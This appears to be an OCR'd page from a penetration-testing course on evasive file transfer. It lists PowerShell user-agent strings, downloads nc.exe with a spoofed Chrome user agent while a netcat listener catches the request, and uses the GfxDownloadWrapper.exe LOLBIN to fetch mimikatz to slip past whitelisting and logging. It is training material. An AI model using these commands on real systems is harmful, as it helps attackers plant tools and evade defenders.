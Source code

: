 Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
##

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

##
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
##

##
Waheed Nusrat@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
##

LOLBAS / GTFOBins
-----------------

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems, and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

##
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
##

Such a binary might be permitted to run by application whitelisting and be excluded from alerting. Other, more commonly available binaries are also available, and it is worth checking the [LOLBAS](https://lolbas-project.github.io/) project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the GTFOBins project and is definitely also worth checking out. As of the time of writing, the [GTFOBins](https://gtfobins.github.io/) project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.
